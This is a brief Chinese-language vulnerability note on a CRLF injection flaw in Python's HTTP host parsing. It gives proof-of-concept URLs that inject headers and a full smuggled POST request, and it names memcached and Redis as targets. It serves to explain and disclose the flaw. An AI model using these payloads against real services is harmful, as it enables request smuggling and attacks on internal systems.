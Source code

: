 （2.7.10 and 3.x before 3.4.4 ）

HTTP协议解析host的时候可以接受百分号编码的值，解码，然后包含在HTTP数据流里面，但是没有进一步的验证或者编码，这就可以注入一个换行符。

poc:
```url
不带域名的
http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo

//带有域名的
http://localhost%00%0d%0ax-bar:%20:12345/foo

//注入完整的http请求
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo
```

攻击面：
	- 攻击memcached
	- 攻击Redis
